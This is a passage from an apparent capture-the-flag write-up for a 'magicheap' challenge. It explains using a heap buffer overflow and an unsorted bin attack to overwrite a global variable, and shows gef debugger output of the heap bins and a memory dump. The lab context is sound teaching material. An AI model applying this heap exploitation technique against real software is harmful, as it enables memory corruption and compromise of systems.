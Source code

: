 ## Exploitation

So we have a buffer overflow bug. We will leverage this bug to write a value to `magic` big enough to let us get the flag. We will do this using an unsorted bin attack, which will allow us to write a large integer value.

#### Unsorted Bin Attack

The Unsorted Bin contains just a single bin. All chunks are first placed in this bin, before being moved to the other bins. The unsorted bin is a doubly linked list, with a `fwd` and `bk` pointer.

When we allocate and free a chunk of size `0xf0`, we can see it here in the unsorted bin:

```
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "magicheap", stopped, reason: SIGINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f2ac7701260 → __read_nocancel()
[#1] 0x400ca7 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7f2ac79ceb20 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
───────────────────── Unsorted Bin for arena 'main_arena' ─────────────────────
[+] unsorted_bins[0]: fw=0x1128000, bk=0x1128000
 →   Chunk(addr=0x1128010, size=0x100, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
────────────────────── Small Bins for arena 'main_arena' ──────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────── Large Bins for arena 'main_arena' ──────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/20g 0x1128000
0x1128000:  0x0 0x101
0x1128010:  0x7f2ac79ceb78  0x7f2ac79ceb78
0x1128020:  0x0 0x0
0x1128030:  0x0 0x0
0x1128040:  0x0 0x0
0x1128050:  0x0 0x0
0x1128060:  0x0 0x0
0x1128070:  0x0 0x0
0x1128080:  0x0 0x0
0x1128090:  0x0 0x0
gef➤  x/g 0x7f2ac79ceb78
0x7f2ac79ceb78 <main_arena+88>: 0x1128400
```
